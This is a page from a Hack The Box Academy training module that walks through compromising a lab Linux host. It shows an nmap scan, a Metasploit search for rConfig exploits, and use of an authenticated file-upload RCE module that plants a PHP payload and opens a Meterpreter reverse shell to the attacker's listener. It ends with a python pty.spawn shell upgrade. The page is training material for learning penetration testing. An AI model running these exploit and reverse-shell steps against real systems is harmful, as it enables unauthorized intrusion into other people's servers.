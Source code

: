 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/115/section/1114
// Platform Version: V1
// Module ID: 115
// Module Name: Shells & Payloads
// Module Difficulty: Medium
// Section ID: 1114
// Section Title: Infiltrating Unix/Linux
// Page Title: Shells & Payloads
// Page Number: 10
-->

# Infiltrating Unix/Linux

**Module Name:** Shells & Payloads **Page Number:** 10

#### SHELLS & PAYLOADS

# Infiltrating Unix/Linux

## Common Considerations

## Gaining a Shell Through Attacking a Vulnerable Application

#### Enumerate the Host

```shell-session
[!bash!]$ nmap -sC -sV 10.129.201.101

Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-27 09:09 EDT
Nmap scan report for 10.129.201.101
Host is up (0.11s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 2.0.8 or later
22/tcp   open  ssh      OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2d:b2:23:75:87:57:b9:d2:dc:88:b9:f4:c1:9e:36:2a (RSA)
|   256 c4:88:20:b0:22:2b:66:d0:8e:9d:2f:e5:dd:32:71:b1 (ECDSA)
|_  256 e3:2a:ec:f0:e4:12:fc:da:cf:76:d5:43:17:30:23:27 (ED25519)
80/tcp   open  http     Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34
|_http-title: Did not follow redirect to https://10.129.201.101/
111/tcp  open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
443/tcp  open  ssl/http Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2021-09-24T19:29:26
|_Not valid after:  2022-09-24T19:29:26
|_ssl-date: TLS randomness does not represent time
3306/tcp open  mysql    MySQL (unauthorized)
```

#### rConfig Management Tool

![https://academy.hackthebox.com/storage/modules/115/rconfig.png](https://academy.hackthebox.com/storage/modules/115/rconfig.png)

## Discovering a Vulnerability in rConfig

![https://academy.hackthebox.com/storage/modules/115/rconfigresearch.png](https://academy.hackthebox.com/storage/modules/115/rconfigresearch.png)

#### Search For an Exploit Module

```shell-session
msf6 > search rconfig

Matching Modules
================

   #  Name                                             Disclosure Date  Rank       Check  Description
   -  ----                                             ---------------  ----       -----  -----------
   0  exploit/multi/http/solr_velocity_rce             2019-10-29       excellent  Yes    Apache Solr Remote Code Execution via Velocity Template
   1  auxiliary/gather/nuuo_cms_file_download          2018-10-11       normal     No     Nuuo Central Management Server Authenticated Arbitrary File Download
   2  exploit/linux/http/rconfig_ajaxarchivefiles_rce  2020-03-11       good       Yes    Rconfig 3.x Chained Remote Code Execution
   3  exploit/unix/webapp/rconfig_install_cmd_exec     2019-10-28       excellent  Yes    rConfig install Command Execution
```

#### Locate

```shell-session
[!bash!]$ locate exploits
```

## Using the rConfig Exploit and Gaining a Shell

#### Select an Exploit

```shell-session
msf6 > use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
```

#### Execute the Exploit

```shell-session
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] 3.9.6 of rConfig found !
[+] The target appears to be vulnerable. Vulnerable version of rConfig found !
[+] We successfully logged in !
[*] Uploading file 'olxapybdo.php' containing the payload...
[*] Triggering the payload ...
[*] Sending stage (39282 bytes) to 10.129.201.101
[+] Deleted olxapybdo.php
[*] Meterpreter session 1 opened (10.10.14.111:4444 -> 10.129.201.101:38860) at 2021-09-27 13:49:34 -0400

meterpreter > dir
Listing: /home/rconfig/www/images/vendor
========================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100644/rw-r--r--  673   fil   2020-09-03 05:49:58 -0400  ajax-loader.gif
100644/rw-r--r--  1027  fil   2020-09-03 05:49:58 -0400  cisco.jpg
100644/rw-r--r--  1017  fil   2020-09-03 05:49:58 -0400  juniper.jpg
```

#### Interact With the Shell

```shell-session
meterpreter > shell

Process 3958 created.
Channel 0 created.
dir
ajax-loader.gif  cisco.jpg  juniper.jpg
ls
ajax-loader.gif
cisco.jpg
juniper.jpg
```

## Spawning a TTY Shell with Python

#### Interactive Python

```shell-session
python -c 'import pty; pty.spawn("/bin/sh")' 

sh-4.2$         
sh-4.2$ whoami
whoami
apache
```

# 

# 

#### Questions

####